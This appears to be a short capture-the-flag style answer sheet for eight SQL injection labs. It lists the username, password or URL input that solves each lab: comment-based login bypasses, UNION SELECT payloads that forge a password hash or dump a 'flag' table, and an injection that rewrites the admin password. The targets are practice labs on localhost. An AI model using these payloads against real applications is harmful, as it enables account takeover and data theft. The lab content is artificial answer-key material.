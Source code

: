 ## Lab 1
   Username= `admin'#`

## Lab 2
   Username= `admin"#`

## Lab 3
   Username= `\`

   Password= ` OR username=char(97, 100, 109, 105, 110)#`

## Lab 4
   Username= `abc`

   Password= `', 256) OR username='admin'#`

## Lab 5
   Username= `' UNION SELECT 'admin', MD5('Admin123@')#`

   Password= `Admin123@`

## Lab 6
   New password= `Admin321@') WHERE username = 'admin'#`

## Lab 7
   Access: `http://localhost:8077/post.php?id=0 UNION SELECT 1, content FROM flag#`

## Lab 8
   Search: `' UNION SELECT NULL, NULL, content FROM flag#`